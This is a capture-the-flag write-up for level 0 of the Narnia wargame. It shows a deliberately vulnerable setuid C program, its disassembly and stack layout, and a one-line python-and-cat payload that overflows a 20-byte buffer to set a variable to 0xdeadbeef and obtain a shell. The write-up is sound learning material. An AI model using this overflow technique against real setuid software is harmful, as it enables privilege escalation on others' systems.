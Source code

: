### Level 0 to 1

We have:
``` C
/*
   This program is free software; you can redistribute it and/or modify
   it under the terms of the GNU General Public License as published by
   the Free Software Foundation; either version 2 of the License, or
   (at your option) any later version.

   This program is distributed in the hope that it will be useful,
   but WITHOUT ANY WARRANTY; without even the implied warranty of
   MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
   GNU General Public License for more details.

   You should have received a copy of the GNU General Public License
   along with this program; if not, write to the Free Software
   Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
   */
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```
Program runs shell as ```narnia1``` user 
``` bash
narnia0@narnia:/narnia$ ls -la narnia0*
-r-sr-x--- 1 narnia1 narnia0 7456 Oct 29  2018 narnia0
-r--r----- 1 narnia0 narnia0 1229 Oct 29  2018 narnia0.c
```
if value in `val` is equal to `0xdeadbeef`.
Program also reads input to `buf` but does not check input length. Guess we can overwrite variable `val` since 
it will be before `buff` on the stack.

Some output with `objdump`
```bash
0804855b <main>:
 804855b:	55                   	push   ebp
 804855c:	89 e5                	mov    ebp,esp
 804855e:	53                   	push   ebx
 804855f:	83 ec 18             	sub    esp,0x18
 8048562:	c7 45 f8 41 41 41 41 	mov    DWORD PTR [ebp-0x8],0x41414141
```
We can see that `0x18` (24 in decimal) bytes are reserved for local variables (20 byte `buff` and 4 byte `val`)
Futher we can even see that our `val` is initialized: `mov    DWORD PTR [ebp-0x8],0x41414141`.


So this is how stack looks like:
```
<---- stack grows
----------------------------------------------
   ...|buff (20 bytes) | val (4 bytes) | ebx |
----------------------------------------------
-----> memory
```
If we overflow `buff` we overwrite `val`.

This is done with simple command:
```bash
(python -c "print('B'*20 + '\xef\xbe\xad\xde')";cat) | ./narnia0
```
Needed to add `cat` because linux exites on finished pipe.

